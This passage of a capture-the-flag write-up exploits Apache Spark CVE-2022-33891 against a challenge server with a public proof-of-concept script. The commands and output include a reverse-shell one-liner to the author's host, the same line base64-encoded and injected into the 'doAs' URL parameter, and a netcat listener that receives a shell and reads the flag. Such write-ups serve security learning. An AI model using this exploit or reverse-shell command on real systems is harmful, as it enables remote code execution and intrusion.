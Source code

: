 Google : `spark 3.1.1 exploit`

```bash
git clone https://github.com/HuskyHacks/cve-2022-33891
cd cve-2022-33891
```

Target is vulnerable

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/fetch-the-flag-2023/Sparky/cve-2022-33891]
└─$ python poc.py -u http://challenge.ctf.games --check -p 30748
[*] Attempting to connect to site...
[!] Performing sleep test of 10 seconds...
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Since the result is time based, I'll use my VPS to get a reverse shell to save time (Or use [webhook](https://webhook.site/#!/00160a6a-1323-425c-be4a-b584629d0ee7) to receive the flag)

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/fetch-the-flag-2023/Sparky/cve-2022-33891]
└─$ python poc.py -u http://challenge.ctf.games -p 30748 --revshell -lh dynasafe.mooo.com -lp 1111 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 1111
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/dynasafe.mooo.com/1111 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvZHluYXNhZmUubW9vby5jb20vMTExMSAwPiYx
[*] Full exploit request is: http://challenge.ctf.games:30748/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvZHluYXNhZmUubW9vby5jb20vMTExMSAwPiYx | base64 -d | bash`
[*] Sending exploit...
```

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.20.0.6] from (UNKNOWN) [34.122.40.66] 25604
sh: 0: can't access tty; job control turned off
$ id
uid=1001(spark) gid=0(spark) groups=0(spark)
$ cat /flag.txt
flag{1cf5f0f135914e5154a6fe20085b0b7a}
```

## Back the Hawks

### Information disclosure lead to invite code
